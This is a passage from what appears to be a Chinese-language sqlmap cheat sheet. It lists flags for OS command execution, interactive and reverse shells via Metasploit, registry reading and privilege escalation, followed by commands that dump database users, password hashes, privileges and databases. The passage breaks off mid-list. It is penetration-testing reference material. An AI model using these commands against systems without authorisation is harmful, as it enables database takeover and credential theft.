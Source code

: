–os-cmd=id #执行系统命令

–os-shell #系统交互shell

–os-pwn #反弹shell(–os-pwn –msf-path=/opt/framework/msf3/)

–msf-path= #matesploit绝对路径(–msf-path=/opt/framework/msf3/)

–os-smbrelay #

–os-bof #

–reg-read #读取win系统注册表

–priv-esc #

–time-sec= #延迟设置 默认–time-sec=5 为5秒

-p “user-agent” –user-agent “sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)” #指定user-agent注入

–eta #盲注

/pentest/database/sqlmap/txt/

common-columns.txt　　字段字典

common-outputs.txt

common-tables.txt 表字典

keywords.txt

oracle-default-passwords.txt

user-agents.txt

wordlist.txt

 

1)判断当前用户是否是dba

python sqlmap.py -u "url" --is-dba -v 1

2)--users:列出数据库管理系统用户

python sqlmap.py -u "url" --users -v 0

3)--passwords:数据库用户密码(hash)

python sqlmap.py -u "url" --passwords -v 0

python sqlmap.py -u "url" --passwords -U sa -v 0

4)查看用户权限

python sqlmap.py -u "url" --privileges -v 0

python sqlmap.py -u "url" --privileges -U postgres -v 0

5)--dbs可以利用的数据库

python sqlmap.py -u "url" --dbs -v 0

6)--tables列数据库表
